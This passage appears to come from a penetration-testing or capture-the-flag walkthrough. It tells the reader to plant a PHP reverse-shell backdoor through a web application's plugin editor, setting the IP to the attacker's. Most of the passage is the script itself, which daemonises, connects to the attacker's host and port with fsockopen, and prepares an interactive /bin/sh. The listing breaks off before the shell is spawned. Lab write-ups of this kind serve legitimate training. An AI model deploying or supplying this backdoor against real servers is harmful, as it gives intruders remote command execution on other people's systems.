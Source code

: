 Will put the malicious php script (php backdoor) stored in: `/usr/share/webshells/php/php-reverse-shell.php`, inside the plugin editor (Should change the ip to the attacker ip and port to something we know):
``` PHP
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
```